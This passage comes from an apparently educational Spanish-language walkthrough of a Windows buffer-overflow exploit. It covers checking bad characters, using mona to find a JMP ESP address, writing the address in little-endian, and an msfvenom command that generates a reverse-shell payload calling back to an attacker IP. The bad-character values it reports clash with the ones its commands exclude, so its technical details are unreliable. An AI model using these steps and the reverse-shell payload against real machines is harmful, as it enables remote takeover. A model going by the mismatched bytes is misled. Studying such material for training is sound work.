 Como podemos observar, continua apareciando el \x3f que habíamos considerado como falso positivo (los demás ya no aparecen). Nótese cómo el nuevo caracter \x40 es consecutivo de este; por lo tanto, existe una alta probabilidad de que el \x40 sea un nuevo falso positivo, volviendo al \x3f un badchar más que no se tenía contemplado:

	Eliminando los posibles falsos positivos (segunda vez): \x00\x04\x3e\x3f\xe1
	Tercera pasada (comparativa): Unmodified
	
Esto se tiene que repetir en caso de que aún aparecieran más; pero al menos en este caso, al obtener el **Unmodified**, podemos asegurar haberlos encontrado a todos.

# 5. Búsqueda del JMP ESP
Recordemos que no basta con colocar la dirección del ESP en el EIP para poder realizar el salto y ejecutar nuestro payload (el cual se almacena en ESP). El sistema simplemente no puede realizar tal ejecución. Para resolverlo, requerimos de la instrucción en ensamblador JMP, la cual realiza un salto a una dirección de memoria que le proporcionemos; en nuestro caso, necesitamos que haga ese salto al ESP: JMP ESP.

Para buscar una instrucción similar en todo el código del binario, podemos usar el siguiente comando de mona:

    !mona jmp -r esp -cpb "\x00\x23\x3c\x83\xba"

Con esto, le indicamos a mona que busque en todo el binario alguna instrucción **JMP ESP** que no contenga los badchars que ya hemos detectado. Al ejecutarla, obtenemos la siguiente salida:

![22]

Se trata de un listado de direcciones que realizan esa instrucción en el binario o bibliotecas *dll* de este. Debemos verificar que esta instrucción, además, cuente con el ASLR y el SafeSEH deshabilitados (False); todos lo tienen, pero más vale asegurarse.

Podemos seleccionar el que nosotros queramos, pero recomiendo empezar por el primero. Necesitamos la dirección, para ello, hacemos clic derecho -> Copy to clipboard -> Address.

![23]

La pegamos en la variable retn de nuestro script. Dado que el sistema Windows 7 tiene notación Little Endian, deberemos escribir la dirección de manera inversa:

    Dirección de Immunity Debugger: 625011AF
    Dirección ya transformada: \xaf\x11\x50\x62

![24]

# 6. Creación del payload malicioso
Nuestra siguiente tarea será crear el payload que efectuará la acción que deseemos en el sistema víctima. Se suele emplear una reverse shell, pero sépase que podemos hacer cualquier acción que queramos.

Para ello, empleamos *msfvenom* para su creación:

    msfvenom -p windows/shell_reverse_tcp LHOST=10.13.14.131 LPORT=443 EXITFUNC=thread -b "\x00\x23\x3c\x83\xba" -f c
